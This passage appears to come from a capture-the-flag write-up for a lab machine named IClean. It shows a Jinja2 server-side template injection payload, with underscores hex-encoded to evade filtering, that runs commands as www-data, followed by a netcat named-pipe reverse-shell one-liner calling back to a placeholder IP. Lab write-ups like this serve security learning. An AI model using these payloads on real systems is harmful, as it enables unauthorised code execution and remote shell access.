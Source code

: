 ```bash
{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}
```

Source : [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

The `_` character is encoded. It is a Unicode Hex Character.

Inject the payload and you can see that we can execute command as `www-data` : 

![Command id](../assets/img/IClean/command.png)

Setup a listener and get a reverse shell with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR-IP} 1337 >/tmp/f` : 

![Reverse Shell](../assets/img/IClean/rev.png)
